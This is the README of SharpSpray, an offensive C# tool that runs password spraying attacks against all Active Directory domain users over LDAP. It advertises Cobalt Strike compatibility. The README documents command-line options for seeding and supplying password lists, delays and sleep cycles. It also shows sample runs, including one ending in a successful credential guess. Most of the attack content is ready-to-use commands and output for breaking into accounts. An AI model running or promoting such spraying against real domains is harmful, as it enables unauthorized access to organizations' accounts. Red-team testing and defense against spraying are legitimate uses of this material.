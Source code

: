 # SharpSpray
This project is a C# port of my PowerSpray.ps1 script. SharpSpray a simple code set to perform a password spraying attack against all users of a domain using LDAP and is compatible with Cobalt Strike.

https://github.com/jnqpblc/Misc-PowerShell/blob/master/PowerSpray.ps1

By default it will automatically generate the UserList from the domain.

By default it will automatically generate the PasswordList using the current date.

Be careful not to lockout any accounts.

```
SharpSpray.exe
      --Seeds [ A comma-separated list of passwords to as a seed to the internal list generator. Eg. Password,Welcome,Company ]
      --Passwords [ A comma-separated list of passwords to use instead of the internal list generator. Eg. Password1,Password19,Company19,Welcome19 ]
      --Delay [ The delay time between guesses in millisecounds. Eg. 300 ]
      --Sleep [ The number of minutes to sleep between password cycles. Eg. 15 ]

C:\Users\jnqpblc\Desktop>SharpSpray.exe --Sleep 15
[+] Successfully collected 42 usernames from Active Directory.
[*] The Lockout Threshold for the current domain is 10.
[*] The Min Password Length for the current domain is 10.
[+] Successfully generated a list of 64 passwords.
[*] Starting password spraying operations.
[*] Using the default delay of 1000 milliseonds between attempts.
[*] Using password Winter19
^C

C:\Users\jnqpblc\Desktop>SharpSpray.exe --Seeds Password,Welcome,Company --Sleep 15
[+] Successfully collected 42 usernames from Active Directory.
[*] The Lockout Threshold for the current domain is 10.
[*] The Min Password Length for the current domain is 10.
[+] Successfully generated a list of 42 passwords.
[*] Starting password spraying operations.
[*] Using the default delay of 1000 milliseonds between attempts.
[*] Using password Password19
^C

C:\Users\jnqpblc\Desktop>SharpSpray.exe --Passwords ItsNotWinter! --Sleep 15 --Delay 300
[+] Successfully collected 42 usernames from Active Directory.
[*] The Lockout Threshold for the current domain is 10.
[*] The Min Password Length for the current domain is 10.
[+] Successfully generated a list of 1 passwords.
[*] Starting password spraying operations.
[*] Using a delay of 300 milliseonds between attempts.
[*] Using password ItsNotWinter!
[+] Successfully authenticated with jnqpblc::ItsNotWinter!
[*] Completed all rounds with password ItsNotWinter!
[*] Now the script will sleep for 15 minutes.
^C
```
